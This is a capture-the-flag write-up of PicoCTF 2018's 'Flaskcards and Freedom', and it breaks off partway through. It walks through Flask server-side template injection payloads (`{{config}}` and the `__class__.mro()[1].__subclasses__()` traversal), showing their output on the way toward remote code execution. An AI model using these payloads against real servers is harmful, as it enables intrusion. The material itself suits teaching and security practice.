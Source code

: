 # Flaskcards and Freedom

This is a 900-point PicoCTF 2018 problem that is the third of three in the "Flaskcards" series. In terms of points, it's tied for the most difficult problem.

### Problem Description

There seem to be a few more files stored on the flash card server but we can't login. Can you? ([link](http://2018shell.picoctf.com:52168/))

The hint explicitly informs the user that the goal of the problem is to get remote code execution on the server.

### Solution

To solve this problem, I did some research into how to exploit Server-Side Template Injection in Flask to get remote code execution. I used two techniques here:

1. Get the remote server to spawn a shell by placing a call to `open(cmd)`

2. Get a reverse shell

First of all, I'll just mention that I started with the solution to the [Flaskcards](https://github.com/Sudoite/ctf-writeups/tree/master/PicoCTF2018/web/Flaskcards) problem: I registered, entered `{{config}}` into the `Question` field for a card, then viewed the card. That demonstrated that this version of the site still has an SSTI vulnerability in that field, but there was no flag stored in the configuration file. Next, I used the approach given [here]

`{{''.__class__}}` yields `<class 'str'>`. Okay, let's go up the object tree, then back down, looking for an `open` command.

`{{''.__class__.mro()}}` yields `[<class 'str'>, <class 'object'>]`.

`{{''.__class__.mro()[1]}}` yields `<class 'object'>`.

`{{''.__class__.mro[1].__subclasses__}}`
yields `<built-in method __subclasses__ of type object at 0x7f000075c5a0>`. Nope, that's not what I want...

`{{''.__class__.mro()[1].__subclasses__()}}` yields:

```
```